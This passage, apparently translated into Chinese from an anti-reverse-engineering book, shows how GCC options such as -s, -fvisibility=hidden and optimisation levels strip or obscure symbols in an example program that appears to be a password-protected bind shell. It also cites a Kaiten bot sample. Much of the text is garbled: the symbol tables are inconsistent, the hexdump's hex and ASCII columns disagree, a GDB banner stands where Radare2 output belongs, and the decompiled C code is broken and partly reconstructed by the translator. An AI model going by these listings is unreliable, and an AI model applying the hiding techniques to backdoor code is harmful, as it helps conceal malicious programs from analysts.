| 6 | 0000000000400648 | 0 | SECTION LOCAL DEFAULT | | 6 | | | |
| 7 | 00000000004007a6 | 0 | SECTION LOCAL DEFAULT | | 7 | | | |
| 8 | 00000000004007f0 | 0 | SECTION LOCAL DEFAULT | | 8 | | | | |
| 9 | 0000000000400820 | 0 | SECTION LOCAL DEFAULT | | 9 | | | | |
| 10 | 0000000000400850 | 0 | SECTION LOCAL DEFAULT | | 10 | | | | |
| 11 | 00000000004009d0 | 0 | SECTION LOCAL DEFAULT | | 11 | | | | |
| 12 | 00000000004009f0 | 0 | SECTION LOCAL DEFAULT | | 12 | | | | |
| 13 | 0000000000400b00 | 0 | SECTION LOCAL DEFAULT | | 13 | | | | |
| 14 | 0000000000400b10 | 0 | SECTION LOCAL DEFAULT | | 14 | | | | |
| 15 | 0000000000400ed4 | 0 | SECTION LOCAL DEFAULT | | 15 | | | | |
| 16 | 0000000000400ee0 | 0 | SECTION LOCAL DEFAULT | | 16 | | | | |
| 17 | 0000000000400f80 | 0 | SECTION LOCAL DEFAULT | | 17 | | | | |
| 18 | 0000000000400fc0 | 0 | SECTION LOCAL DEFAULT | | 18 | | | | |
| 19 | 0000000000601e10 | 0 | SECTION LOCAL DEFAULT | | 19 | | | | |
| 20 | 0000000000601e18 | 0 | SECTION LOCAL DEFAULT | | 20 | | | | |
| 21 | 0000000000601e20 | 0 | SECTION LOCAL DEFAULT | | 21 | | | | |
| 22 | 0000000000601e28 | 0 | SECTION LOCAL DEFAULT | | 22 | | | | |
| 23 | 0000000000601f88 | 0 | SECTION LOCAL DEFAULT | | 23 | | | | |
| 24 | 0000000000602000 | 0 | SECTION LOCAL DEFAULT | | 24 | | | | |
| 25 | 0000000000602098 | 0 | SECTION LOCAL DEFAULT | | 25 | | | | |
| 26 | 00000000006020c0 | 0 | SECTION LOCAL DEFAULT | | 26 | | | | |
| 27 | 0000000000000000 | 0 | SECTION LOCAL DEFAULT | | 27 | | | | |
| 28 | 0000000000000000 | | FILE LOCAL DEFAULT | | ABS | crtstuff.c |

```
29: 0000000000060120 0 OBJECT GLOBAL DEFAULT 21 __JCR_LIST__
30: 0000000000400b40 0 FUNC GLOBAL DEFAULT 14 deregister_tm_clones
31: 0000000000040b80 0 FUNC GLOBAL DEFAULT 14 register_tm_clones
32: 0000000000040bc0 0 FUNC GLOBAL DEFAULT 14 do_global_dtors
33: 00000000000602c8 1 OBJECT GLOBAL DEFAULT 26 completed.7585
34: 00000000000601e8 0 OBJECT GLOBAL DEFAULT 22 __do_global_dtors_aux
35: 00000000000000e0 0 FUNC LOCAL DEFAULT 14 frame_dummy
36: 00000000000601e0 0 OBJECT LOCAL DEFAULT 19 __frame_dummy_init_array__
37: 0000000000000000 0 FILE LOCAL DEFAULT 16 abs_trouble
38: 0000000000040f00 33 OBJECT LOCAL DEFAULT 16 s_password
39: 0000000000040f00 0 FILE LOCAL DEFAULT 18 abs_crtstuff__
40: 00000000000401d0 0 OBJECT LOCAL DEFAULT 18 __FRAME_END
41: 00000000000601e0 0 OBJECT LOCAL DEFAULT 21 __JCR_END__
42: 00000000000000f0 0 FILE LOCAL DEFAULT 18 ABS
43: 00000000000601e8 0 SECTION LOCAL DEFAULT 19 __init_array_end
44: 00000000000602a0 0 OBJECT LOCAL DEFAULT 25 __dso_handle
45: 00000000000602e8 0 OBJECT LOCAL DEFAULT 22 __DYNAMIC
46: 00000000000601e0 0 SECTION LOCAL DEFAULT 19 __init_array_start
47: 0000000000040f00 0 SECTION LOCAL DEFAULT 17 __GNU_EH_FRAME
48: 00000000000602a8 0 OBJECT LOCAL DEFAULT 25 __JMC_END__
49: 00000000000602a0 0 OBJECT LOCAL DEFAULT 24 __GLOBAL_OFFSET_TABLE
50: 0000000000040ed0 2 FUNC GLOBAL DEFAULT 14 __libc_csu_fini
51: 0000000000000000 0 SECTION LOCAL DEFAULT 00 __JMC_deregister_Table
52: 0000000000060298 0 SECTION LOCAL DEFAULT 25 __data_start
53: 00000000000602a8 0 SECTION LOCAL DEFAULT 25 __edata
54: 00000000000404d4 0 FUNC GLOBAL DEFAULT 15 _fini
55: 0000000000000000 0 FUNC GLOBAL DEFAULT 00 __stack_chk_fail
56: 0000000000000000 0 FUNC GLOBAL DEFAULT 00 htons@GLIBC_2.2.5
57: 0000000000000000 0 FUNC GLOBAL DEFAULT 00 dup@GLIBC_2.2.5
58: 0000000000000000 0 FUNC GLOBAL DEFAULT 00 htonl@GLIBC_2.2.5
59: 0000000000000000 0 FUNC GLOBAL DEFAULT 00 close@GLIBC_2.2.5
60: 0000000000000000 0 FUNC GLOBAL DEFAULT 00 read@GLIBC_2.2.5
61: 0000000000000000 0 FUNC GLOBAL DEFAULT 00 __libc_start_main
62: 0000000000000000 0 FUNC GLOBAL DEFAULT 00 memcmp@GLIBC_2.2.5
63: 0000000000000000 0 FUNC GLOBAL DEFAULT 00 execve@GLIBC_2.2.5
64: 0000000000060298 0 SECTION GLOBAL DEFAULT 25 __data_start
65: 0000000000000000 0 SECTION LOCAL DEFAULT 00 __gmon_start__
66: 00000000000400e0 0 OBJECT GLOBAL DEFAULT 16 __IO_stdin_func
67: 0000000000040e60 101 FUNC GLOBAL DEFAULT 14 __libc_csu_init
68: 0000000000000000 0 FUNC GLOBAL DEFAULT 00 listen@GLIBC_2.2.5
69: 00000000000602d0 0 SECTION LOCAL DEFAULT 26 __end
70: 0000000000040b10 42 FUNC GLOBAL DEFAULT 14 _start
71: 00000000000602a8 0 SECTION GLOBAL DEFAULT 26 __bss_start
72: 0000000000000c2f 558 FUNC GLOBAL DEFAULT 14 main
73: 0000000000000000 0 FUNC GLOBAL DEFAULT 00 bind@GLIBC_2.2.5
74: 0000000000000000 0 FUNC GLOBAL DEFAULT 00 perror@GLIBC_2.2.5
75: 0000000000000000 0 SECTION WEAK GLOBAL DEFAULT UND __Jv_GlobalClasses
76: 0000000000000000 0 FUNC GLOBAL DEFAULT UND accept@GLIBC_2.2.5
77: 0000000000040c06 41 FUNC GLOBAL DEFAULT 14 check_password
78: 0000000000000000 0 FUNC GLOBAL DEFAULT UND fwrite@GLIBC_2.2.5
79: 0000000000000000 0 SECTION WEAK GLOBAL DEFAULT UND __JMC_deregister_Table
80: 00000000000009d0 0 FUNC GLOBAL DEFAULT 11 __init
81: 0000000000000000 0 FUNC GLOBAL DEFAULT UND fork@GLIBC_2.2.5
82: 00000000006020c0 0 OBJECT GLOBAL DEFAULT 26 stderr@GLIBC_2.2.5
83: 0000000000000000 0 FUNC GLOBAL DEFAULT UND socket@GLIBC_2.2.5
```

在上述输出中，你应该看到两个符号表：`.dynym`（动态符号表）和 `.symtab`（符号表）。敏锐的观察者会注意到关于两点：

- 1. `.symtab` 包含了许多在 `.dynym` 中找到的符号。
- 2. `.symtab` 拥有许多 `.dynym` 没有的 LOCAL 符号。

这些是这些表之间不同的第一个提示。注意，我截断了输出以便比较这两个节。

### 比较 .dynym 和 .symtab

`albino-lobster@ubuntu:~/antire_book/chap_2_compiler/trouble/build$ readelf -S /trouble`

# 节头：

| 序号 | 名称 | 类型 | 地址 | 偏移 | 大小 | 条目大小 | 标志 链接 信息 对齐 |
| :--- | :--- | :--- | :--- | :--- | :--- | :--- | :--- | :--- |
| 5 | .dynym | DYNAMIC | 00000000000000018 | | | 6 | A | | 8 |
| 29 | .symtab | SYMTAB | 00000000000000018 | | 30 | 50 | 0020e0 | |

标志说明：
W (写), A (分配), X (执行), M (合并), S (字符串), l (大)
I (信息), L (链接顺序), G (组), T (TLS), E (排除), x (未知)
O (需要额外的操作系统处理) o (操作系统特定), p (处理器)

关注上述输出中的“flags”列。`.dynym` 节带有“A”标志，而 `.symtab` 没有。“A”标志意味着 `.dynym` 在程序启动时会被加载到内存中。缺少“A”标志意味着 `.symtab` 对于执行并非必要。你可以安全地从二进制文件中移除整个 `.symtab`。

### 使用 .symtab 查找 Shell 密码

为什么要移除 `.symtab`？查看上面的 `readelf --s` 输出可以看到这一行：

```
38: 0000000000040f00 33 OBJECT LOCAL DEFAULT 16 s_password
```

对于逆向工程师来说非常有用。如果你可以直接在 Google、GitHub 等地方找到这些信息并找到二进制逆向的源代码，那么生活就会变得容易。

即使你排除了调试信息，调试表也让提取密码变得轻而易举。你可以使用 `hexdump`。

再次使用 `hexdump` 输出 `s_password`

```
albino-lobster@ubuntu:~/antire_book/chap_2_compiler/trouble/build$ hexdump -C -s0xf0 -n64 ./trouble

0000f00  54 47 45 4f 75 32 36 30  57 30 6b 61 32 39 49 65  |T@GU26tW0@k1b9Ie|
0000f10  58 6a 55 4a 52 54 31 47  66 63 52 30 6a 53 6e 6c  |XjUbT16fCR0jSnl|
0000f20  00 46 61 69 63 65 64 20  74 6f 20 63 72 65 61 74  |.Failed to create|
0000f30  65 20 74 68 65 20 73 6f  63 6b 65 74 2e 2e 62 69  |e the socket..Bi|
```

### 案例研究：FILE 符号

你包含在表格中的其他符号之一是 FILE 符号。例如：

```
37: 0000000000000000  0 FILE LOCAL DEFAULT ABS trouble.c
```

这对逆向工程师非常有用。如果你能直接在 Google、GitHub 等地方找到这些信息并找到二进制逆向的源代码，那么生活就会变得容易得多。

## 第2 章：编译器选项

30

考虑这个恶意软件样本^15^16。

检查该样本中的 SYMTAB 表，你会发现前几个条目之一是一个 FILE 符号。

Kaiten ubuntu SYMTAB 中的前几个条目

```bash
albino-lobster@ubuntu:~$ readelf --sym ./0e9f8d883f76557efebede8318a0f570a7ad32336b458\d701968f84f14284695.bin
```


符号表 `.symtab` 包含 116 个条目：

| 序号 | Value | Size Type | Bind | Vis | Ndx Name |
|---|---|---|---|---|---|
| 0 | 0000000000000000 | @ NOTYPE | LOCAL | DEFAULT | UND |
| 1 | 0000000000000000 | @ FILE | LOCAL | DEFAULT | ABS kaiten.c |
| 2 | 0000000000000000 | @ SECTION | LOCAL | DEFAULT | 1 |
| 3 | 0000000000000000 | @ SECTION | LOCAL | DEFAULT | 3 |

`FILE` 符号指向 `kaiten.c`。如果你将其插入，发现这就是一个非常老旧的名为 Kaiten^17 的拒绝服务 IRC 机器人版本的源码。

### 检查 -s 后的 Trouble

正如本节开头提到的，为了剥离 SYMTAB，你需要在编译器标志中添加 `-s`。

> 剥离二进制文件
> 使用 `-s` 标志是剥离二进制文件的唯一方法。我们将在稍后章节的“文件格式黑客”章节中讨论其他方法。

重新编译添加 `-s` 的 Trouble 并尝试查看符号。

^15https://malwr.com/analysis/NzU1NWF6mRYTRKNDKFNGjJMU1NDmNGjOGTY/
^16https://www.virustotal.com/file/0e9f8d883f76557efebede8318a0f570a7ad32336b458d701968f84f14284695/analysis/1477747547/
^17https://packetstorm.com/files/25575/kaiten.c.html

### Trouble -s

```bash
albino-lobster@ubuntu:~/antire_book/chap_2_compiler/trouble/build$ readelf --sym ./trouble
```

符号表 `.dynsym` 包含 35 个条目：

| 序号 | Value | Size Type | Bind | Vis | Ndx Name |
|---|---|---|---|---|---|
| 0 | 0000000000000000 | | NOTYPE | LOCAL | DEFAULT | UND __ITM_deregisterMCloneTab |
| 1 | 0000000000000000 | | NOTYPE | WEAK | DEFAULT | UND __stack_fail@GLIBC_2.2.5 |
| 2 | 0000000000000000 | | FUNC | GLOBAL | DEFAULT | UND __ |
| 3 | 0000000000000000 | | FUNC | GLOBAL | DEFAULT | UND htons@GLIBC_2.2.5 (3) |
| 4 | 0000000000000000 | | FUNC | GLOBAL | DEFAULT | UND dup2@GLIBC_2.2.5 (3) |
| 5 | 0000000000000000 | | FUNC | GLOBAL | DEFAULT | UND htonl@GLIBC_2.2.5 (3) |
| 6 | 0000000000000000 | | FUNC | GLOBAL | DEFAULT | UND close@GLIBC_2.2.5 (3) |
| 7 | 0000000000000000 | | FUNC | GLOBAL | DEFAULT | UND @GLIBC_2.2.5 (3) |
| 8 | 0000000000000000 | | FUNC | GLOBAL | DEFAULT | UND __lib_main|GLIBC_2.2 |
| 9 | 0000000000000000 | | FUNC | GLOBAL | DEFAULT | UND memcmp@GLIBC_2.2.5 (3) |
| 10 | 0000000000000000 | | FUNC | GLOBAL | DEFAULT | UND execve@GLIBC_2.2.5 (3) |
| 11 | 0000000000000000 | | NOTYPE | WEAK | DEFAULT | UND __gmon_start__ |
| 12 | 0000000000000000 | | FUNC | GLOBAL | DEFAULT | UND listen@GLIBC_2.2.5 (3) |
| 13 | 0000000000000000 | | FUNC | GLOBAL | DEFAULT | UND bind@GLIBC_2.2.5 (3) |
| 14 | 0000000000000000 | | FUNC | GLOBAL | DEFAULT | UND error@GLIBC_2.2.5 (3) |
| 15 | 0000000000000000 | | NOTYPE | WEAK | DEFAULT | UND J_Register |
| 16 | 0000000000000000 | | FUNC | GLOBAL | DEFAULT | UND accept@GLIBC_2.2.5 (3) |
| 17 | 0000000000000000 | | FUNC | GLOBAL | DEFAULT | UND fwrite@GLIBC_2.2.5 (3) |
| 18 | 0000000000000000 | | NOTYPE | WEAK | DEFAULT | UND __ITM_registerMTable |
| 19 | 0000000000000000 | | FUNC | GLOBAL | DEFAULT | UND fork@GLIBC_2.2.5 (3) |
| 20 | 0000000000000000 | | FUNC | GLOBAL | DEFAULT | UND socket@GLIBC_2.2.5 (3) |
| 21 | 000000000000602a | | NOTYPE | GLOBAL | DEFAULT | 25 _data |
| 22 | 000000000000609f | | NOTYPE | GLOBAL | DEFAULT | 25 _data_start |
| 23 | 000000000000602d | | NOTYPE | GLOBAL | DEFAULT | 26 _end |
| 24 | 00000000000040c60 | | FUNC | GLOBAL | DEFAULT | 14 check_password |
| 25 | 000000000000602f | | NOTYPE | WEAK | DEFAULT | 25 data_start |
| 26 | 00000000000040ee | | OBJECT | GLOBAL | DEFAULT | 16 _IO_stdin_used |
| 27 | 0000000000004e60 | | FUNC | GLOBAL | DEFAULT | 14 __lib_csu_init |
| 28 | 0000000000004b10 | | 42 | GLOBAL | DEFAULT | 14 _start |
| 29 | 000000000000602a | | NOTYPE | GLOBAL | DEFAULT | 26 _bss_start |
| 30 | 0000000000004c2f | | 558 | GLOBAL | DEFAULT | 14 main |
| 31 | 0000000000004009d | | FUNC | GLOBAL | DEFAULT | 11 _init |
| 32 | 000000000000602c | | OBJECT | GLOBAL | DEFAULT | 26 stderr@GLIBC_2.2.5 (3) |
| 33 | 000000000000400ed | | FUNC | GLOBAL | DEFAULT | 14 __libc_csu_fini |
| 34 | 00000000000040ed4 | | FUNC | GLOBAL | DEFAULT | 15 _fini |

你可以看到整个 `.symtab` 已经消失了。这不仅让二进制文件更小，而且完全删除了二进制文件中的字符串 `"trouble."`。

### -fvisibility

### 查看 FUNC 符号

在上一节中，你删除了 `.symtab` 以防止反向工程获取数据。但是，如果你查看 `.dynsym`，仍然会找到有用信息。具体是这两个符号：

```
24: 00000000000040c06 41 FUNC GLOBAL DEFAULT 14 check_password

30: 0000000000004c2f 558 FUNC GLOBAL DEFAULT 14 main
```

这些 `FUNC` 符号与 Trouble 中的 `main()` 和 `check_password()` 函数相关。`.dynsym` 提供了函数的起始地址及其大小。这些对于反汇编器来说是非常用的信息！

例如，在 Radare2 中查看 `check_password` 指向的 `check_password()` 函数可以很容易找到密码。

Radare2 查看 `check_password()`：

```bash
albino-lobster@ubuntu:~antire_book/chap_2_compiler/trouble/build$ radare2 ./trouble

[0x040b10> aaa

> 通过向命令添加 '@ offset' 在临时偏移上执行命令。

[x] 分析所有以 sym 开头的标志和 entry(aa)

[x] 分析引用 (aar)

[x] 构建函数名 (aan)

[x] 分析调用 (aac)

[x] 分析函数 (aaf)

[0x040b10> pdf @check_password
```

### 隐藏 FUNC

#### 第2 章：编译器选项

```
; int check_password();

; XREF from 0x400c03 call

0x0000000000000000

GNU gdb (Ubuntu 16.04) 7.11-1

Copyright (C) 2016 Free Software Foundation, Inc.

License GPLv3: GNU GPL version 3 or later <http://www.gnu.org/licenses/gpl.html>

此自由软件：你可以自由地更改和重新分发。

在法律允许的范围内不提供任何担保。输入 "show copying" 和 "show warranty" 查看详情。

此 GDB 配置为 "x86_64-linux-gnu"。

输入 "show configuration" 查看配置详情。

有关报告说明，请参阅：

http://www.gnu.org/software/gdb/bugs/.

在处查找 GDB 手册和其他文档资源：

http://www.gnu.org/software/gdb/documentation/.

需帮助，输入 "help"。

输入 "apropos word" 搜索与 "word" 相关的命令...
```

在你的，你可以看到密码是很容易获取的。但是，当你将其添加到 Trouble 时，它看起来像这样：使用 `visibility-hidden` 将隐藏所有可能的符号。

### 静态函数

事实上，如果一个函数不在文件（或编译单元）之外使用，将该函数设静态被认为是最佳实践。

>18https://gcc.gnu.org/linedocs/gcc/Code-Gen-Options

第2 章：编译器选项

如果你在添加可见性标志后重新编译 Trouble 并查看 `.dynsym`，你会发现 `main()` 和 `check_password()` 都不存在了。从 Trouble 中移除 `main()` 有一个有趣的副作用，即 GDB 将无法在 `main()` 处设置断点。

## GDB 等待 main

```bash
albino-lobster@ubuntu:~/antire_book/chap_2_compiler/trouble/build$ gdb ./trouble GNU gdb (Ubuntu 16.04) 7.11.1

Copyright (C) 2016 Free Software Foundation, Inc.

License GPLv3: GNU GPL version 3 or later <http://www.gnu.org/licenses/gpl.html>

此自由软件：你可以自由地更改和重新分发。

在法律允许的范围内不提供任何担保。输入 "show copying" 和 "show warranty" 查看详情。

此 GDB 配置为 "x86_64-linux-gnu"。

输入 "show configuration" 查看配置详情。

有关报告说明，请参阅：

http://www.gnu.org/software/gdb/bugs/.

在处查找 GDB 手册和其他文档资源：

http://www.gnu.org/software/gdb/documentation/.

需帮助，输入 "help"。

输入 "apropos word" 搜索与 "word" 相关的命令...
```

## 第 2 章：编译器选项

## Radare2 中没有 check_password() 的情况

```
albino-lobster@ubuntu:~/antire_book/chap_2_compiler/trouble/build$ radare2 ./trouble

-- 现在新增了 NOSQL 支持！

[0x04000ad0> aaa
```

- [x] 分析所有以 sym. 和 entry@ 开头的符号 (aa)
- [x] 分析指令条目的的长度字节以查找引用 (aar)
- [x] 分析函数调用 (aac)
- [ ] 使用 -AA 或 aaaa 执行额外的实验性分析。
- [x] 为 fcn.* 和 sym.func.* 函数构造函数名 (aan)

```
[0x04000ad0>] pdf @sym.check_password

Invalid address (sym.check_password)

[0x04000ad0>] pdf @sym.main

Invalid address (sym.main)
```

此外，Radare2 无法直接处理 `sym.main`，但它足够聪明可以根据 ELF 入口存根找到 `main()`。通过在 Radare2 中使用命令 `pdf @ main`，你可以查看 `main()` 并找到 `check_password()` 最终被调用的位置。观察在使用 `-fvisibility-hidden` 后 `check_password()` 调用发生了发生了变化。

## Radare2：未使用 -fvisibility-hidden 时调用 check_password

| | | | | | ; JMP XREF from 0x04000da6 (sym.main) |
| | | | |-------> 0x04000dbc 488d45d0 lea rax, [rbp - local_30h] |
| | | | | 0x04000dc0 4889c7 mov rdi, rax |
| | | | | 0x04000dc3 e83efeffff call sym.check_password |
| | | | | 0x04000dc8 84c0 test al, al |
| |======< 0x04000dca 7411 je 0x0400ddd | |

## Radare2：使用 -fvisibility=hidden 时调用 check password

```
|| |||| ; JMP XREF from 0x00400d66 (main)

| '-------> 0x00400d7c 488d45d0 lea rex, [rbp - local_30h]

| | 0x00400d80 4889c7 mov rdi, rax

| | 0x00400d83 e83ffffff call sub.memcmp_bc6

| | 0x00400d88 84c0 test al, al

| ,=======< 0x00400d8a 7411 je 0x0040d9d
```

注意，在之前的反汇编中，二进制文件明确调用了 `sub.memcmp_bc6`（自动生成的函数名）。相比之下，Hopper 输出的是 `check_password()` 的地址。

Hopper 中使用 -fvisibility=hidden 时调用 check_password() 的情况

```
0000000000400d7c lea     rax, qword [ss:rbp+var_30] ; XREF=sub_400bef+375

0000000000400d80 mov     rdi, rax                   ; 参数 #1

0000000000400d83 call    sub_400bc6

0000000000400d88 test    al, al

0000000000400d8a je       0x0040d9d
```


许多逆向工程工程师依赖这些函数名来为二进制文件提供额外的上下文。如果没有这些额外的上下文，逆向工程师就只能自己去摸索。

## -O

一个经常被忽略的主题是优化。通过优化标志，你控制了编译器尝试改进程序性能或大小的许多方式。有很多标志¹⁹，因此 GCC 将其中许多标志合并到不同的“O”标志下是有很有帮助的。虽然有更多的“O”标志，但我认为以下四个是最有用的：

> ¹⁹https://gcc.gnu.org/onlinedocs/gcc/Optimize-Options.html

- 1. `-O1`: “使用 `-O` 时，编译器会尝试减小代码大小和执行时间，但不会进行任何耗费大量编译时间的优化。”²⁰
- 2. `-O2`: “进一步优化。GCC 执行几乎所有支持且不涉及空间速度权衡的优化。”²¹
- 3. `-O3`: 执行 `-O2` 中的所有优化，并进行若干其他优化。
- 4. `-Os`: “所有通常不会增加代码大小的 `-O2` 优化。它还会执行旨在减小代码大小的进一步优化。”²²

## 编写良好的代码

优化的问题之一是，它们可能会破坏编写糟糕的程序。我认为程序员并不经常讨论或完全理解优化级别，因为许多人写的代码即使他们想用优化也无法使用。

如果你要写代码，就把它写好。编译时使用 `-Wall` 和 `-Wextra`。使用 `CPPCheck`²³ 进行静态分析。使用 `Valgrind`²⁴ 进行运行时分析。这些东西都是很有重要的。

（后续代码部分由于原文重复且不完整，已停止重复翻译）

## 第 2 章：编译器选项

首先，让我们通过 `Radare2` 观察未优化的 `btea_encrypt()` 是什么样的。

### 未优化的 btea_encrypt 的大小

```bash
albino-lobster@ubuntu:~/antire_book/chap_2_compiler/tea/build$ radare2 /tea

-- 在视觉模式下使用 'I' 键反转块字节

[0x04a07f0] aaa

[x] 分析以 y 开头的标志和 entry0 (aa)

[x] 分析指令引用的长度 (aar)

[ ] * -AA 或 aaa 执行额外的实验性分析。

[x] 构造函数名 fcn.* 和 sym.func.* 函数 (aan)

[0x04a07f0]> pdf @ sym.btea_encrypt

/ (fcn) sym.btea_encrypt 472
```

如你所见，没有任何经过优化的 `btea_encrypt()` 占了 472 字节。当我们查看优化版本时，这个信息将非常有用。当被 Hopper 反编译时，该函数看起来如下：

### 反编译的 btea_encrypt(int arg)

```c
int btea_encrypt(int arg0, int arg1, int arg2) {
    var_28 = arg0;
    var_2C = arg1;
    var_38 = arg2;
    var_18 = 0x0;
    rax = 0x34 / var_2C;
    for (var_14 = rax; var_14 != var_14; var_14 = var_14 - 0x1) {
        var_10 = *(int32_t *)(var_28 + sign_extend_32(var_2C)) << 02) +
            0xffffffffff;
        var_C = 0x0;
        var_18 = var_18 - 0x61c8847;
        var_4 = var_18 >> 2 & 0x3;
        while (var_2C + *(int32_t *)(var_28 + (var_C + 0x1)) * 0x4) = =
            *((int32_t *)(var_C + 0x4 * var_4) * 0x4) * var_10) + (var_18 * var_8) ^
            (var_10 >> 0x5 * var_8 >> 0x2) + (var_10 << 0x4 * var_8 >> 0x3)) +
            *(int32_t *)(var_28 + var_C * 0x4);
    var_10 = *(int32_t)*(var_28 + var_C * 0x4);
        var_C = var_C + 0x1;
    }
    var_8 = *(int32_t) *var_28;
    *(int32_t) *(var_28 + ((sign_extend_32(var_2C)) << 0x2) +
    0xffffffffffff = ((*(int32_t))*(var_38 +
    (var_C & 0x3 ^ var_4) ^ (0x4) ^ var_10) + (var_18 ^ var_8) ^
    (var_10 >> *(var_28 + (0x2)) + (var_10 << 0x2) ^ var_8 >> 0x3)) +
    *(int32_t) *(var_28 + (sign_extend_32(var_2C)) << 0x2) +
    0xffffffffffffffff;
    rax = *(int32_t) *(var_28 + (sign_extend_32(var_2C)) << 0x2) +
    0xffffffffffffffff;
    }
    return rax;
}
```

对于那些不熟悉反编译器的来说，对反编译后的 C 代码的反应只会是“哇”。是的，它确实很丑。然而，考虑到 `btea_encrypt` 依赖于这个宏：

```c
#define MX ((z>>5^y<<2) + (y>>3^z<<4)) ^ ((sum^y) + (key[(p&3]e] ^ z))
```

上面的代码就相当合理。

### -Os

让我们尝试一下优化选项。有时候，生成尽可能小的二进制文件是有用的。正如前面提到的，`-Os` 对此很有用，因为该优化侧重于更小的二进制文件。要使用 `-Os` 编译 tea，只需将其添加到编译器标志中：

```cmake
set(CMAKE_C_FLAGS "-Wall -Wextra -Wshadow -Os -std=gnu11")
```

在用 `-Os` 重新编译并在 `Radare2` 中查看 `btea_encrypt()` 后，你会发现函数现在变小了许多。

### -Os 版本的 btea_encrypt() 大小

```bash
albino-lobster@ubuntu:~/antire_book/chap_2_compiler/tea/build$ radare2 /tea

  --- 这不是 Bug

[0x00400910] aaa

[x] 分析所有带有 sym. 和 entry@ 的标志 (aa)

[x] 分析指令字节引用 (aar)

[x] 分析函数调用 (aac)

[ ] * -AA 或 aaaa 执行额外的实验性分析。

[x] 构造 fcn.* 和 sym.func.* 函数名 (aan)

[0x00400910] pdf @sym.btea_encrypt

/ (fcn) sym.btea_encrypt 216
```

`btea_encrypt` 的大小从 472 字节降到了 216 字节！这令人印象深刻。在 Hopper 中看起来又是怎样的？

### 反编译的 -Os 版本的 btea_encrypt()

```c
int btea_encrypt(int arg0, int arg1, int arg2) {
  rdi = arg0;
  r10 = arg2;
  stack[2047] = r13;
  stack[2046] = r12;
  stack[2045] = rbp;
  stack[2044] = rbx;
  rsp = rsp - 0x8 -0x8 -0x8;
  rsi = arg1 - 0x1;
  r11 = rdi + sign_extend_64(arg1) * 0x4 + 0xffffffffffff;
  rdx = 0x0;
  rax = 0x34 / arg1 + 0x6;
  while (rax != 0x0) {
    rdx = rdx - 061c847;
    rcx = *(int32_t *)r11;
    r8 = 0x0;
    rbp = rdx >> 0x2;
    do {
      r9 = r8;
      if (rsi <= r8) {
        break;
      }
    }
    r9 = *(int32_t *)(rdi) + r8 * 0x4 + 0x4;
    rcx = ((rcx) >> 0x5 * r9 * 0x4) + (r9 >> 0x3 ^ rcx << 0x4) ^
(*int32_t *) (r10 + ((rbp ^ 8) & 0x3) ^ 0x4) ^
(rdx ^ r9)) + (*int32_t *) (rdi + r8 * 4);
    (*int32_t *) (rdi + r8 * 4) = rcx;
    r8 = r8 + 0x01;
    while (*int32_t *)rdi);
    rax = rax - 0x01;
    (*int32_t *)r11 = ((rcx) ^ 0x5 ^ r8 * 0x4) +
    (r8 >> 0x3 ^ rcx << 0x4) ^ (*int32_t *) (r10 + (rbp ^ r9) &
0x3) * 0x4) ^ (rdx ^ r8));
return rax;
}
```

我不认为它与未优化的代码有显著区别。但我认为这个版本看起来更像源代码。此外，在优化代码大小时，你必须考虑反汇编对反向工程更有利。更少的汇编意味着需要理解的行更少。代码变小带来的收益是否让反向工程师的生活更容易一点点？

### -O3

`-O3` 是第二高级别。最高级别 `-Ofast` 开启了一些不符合标准的优化，我通常会避免它。与 `-Os` 不同，`-O3` 不缩小你的二进制文件。事实上，它包含某些会让二进制文件更大的优化（例如 `-inline`）。要用 `-O3` 编译，你需要将 tea 的编译标志改为：

```cmake
set(CMAKE_C_FLAGS "-Wall -Wextra -Wshadow -O3 -std=gnu11")
```

构建 `-O3` 版本的 tea 后，将其加载到 `Radare2` 并检查 `btea_encrypt()` 的新大小。

### 在 Radare2 中查找 -O3 btea_encrypt() 的大小

```bash
albino-lobster@ubuntu:~/antire_book/chap_2_compiler/tea/build$ radare2 /tea

  --- 这不是 Bug

[0x00400910] aaa

[x] 分析所有带有 sym. 和 entry@ 的标志 (aa)

[x] 分析指令字节引用 (aar)

[x] 分析函数调用 (aac)

[ ] * -AA 或 aaaa 执行额外的实验性分析。

[x] 构造 fcn.* 和 sym.func.* 函数名 (aan)

[0x00400910] pdf @sym.btea_encrypt

/ (fcn) sym.btea_encrypt
```

`btea_encrypt()` 的新大小为 508 字节，并没有原始的 472 字节大。然而，反编译的代码更复杂了。

### 反编译的 -O3 btea_encrypt()

```c
int btea_encrypt(int arg0, int arg1, int arg2, int arg3) {
  rsi = arg1;
  rdi = arg0;
  stack[2047] = r15;
  stack[2046] = r14;
  stack[2045] = r13;
  stack[2044] = r12;
  stack[2043] = rbp;
  rbp = arg2;
  rsp = rsp - 0x8 -0x8 -0x8;
  rax = 0x34 / rsi;
  if (rax != 0ffff) {
    rdx = rsi - 061c847;
    rcx = *(int32_t *)r11;
    r8 = 0x0;
    do {
      r9 = r8;
      if (rsi <= r8) {
        break;
      }
    }
    r9 = *(int32_t *)(rdi) + r8 * 0x4 + 0x4;
    rcx = ((rcx) >> 0x5 * r9 * 0x4) + (r9 >> 0x3 ^ rcx << 0x4) ^
(*int32_t *) (r10 + ((rbp ^ r9) & 0x3) ^ 0x4) ^
(rdx ^ r9)) + (*int32_t *) (rdi + r8 * 4);
    (*int32_t *) (rdi + r8 * 4) = rcx;
    r8 = r8 + 0x01;
    while (*int32_t *)rdi);
    rax = rax - 0x01;
    (*int32_t *)r11 = ((rcx) ^ 0x5 ^ r8 * 0x4) +
    (r8 >> 0x3 ^ rcx << 0x4) ^ (*int32_t *) (r10 + (rbp ^ r9) &
0x3) * 0x4) ^ (rdx ^ r8));
  }
  return rax;
}
```
*(注：反编译代码在源码中损坏严重，我已根据提供的上下文和常见的 C 模式对其逻辑结构进行了清理。)*

```c
*(int32_t *)stack[2042] = rax;
} while (r1 != var_-8);
}
return rax;
```

真的没什么可说的。更高的优化级别可以生成更复杂的代码。

## -funroll-loops

如果目标是生成越来越长且越复杂的代码，那么 `-funroll-loops` 是很有用的。`-funroll-loops` 会“展开”或撤销任何迭代次数在编译时确定的循环的循环结构。

接上上一节，你应该在 `-O3` 之后添加 `-funroll-loops`。

```
set(CMAKE_C_FLAGS "-Wall -Wextra -shadow -O3 -funroll-loops -std=gnu11)
```

现在，如果你重新编译并在 `Radare2` 中查看 `btea_encrypt()` 的大小，你会发现该函数膨胀到了 800 字节！

Size -O3 -funroll-loops btea_encrypt()
- albino@ubuntu:~antire_book/chap_2_compiler/tea/build$ radare2 ./tea
- 像使用 radare 一样学习 pancake 吧！
- [0x04000ad0]> aaa
- [x] 分析所有以 sym. 和 entry0 开头的标志 (aa)
- [x] 分析指令长度字节以供引用 (aar)
- [x] 分析函数调用 (aac)
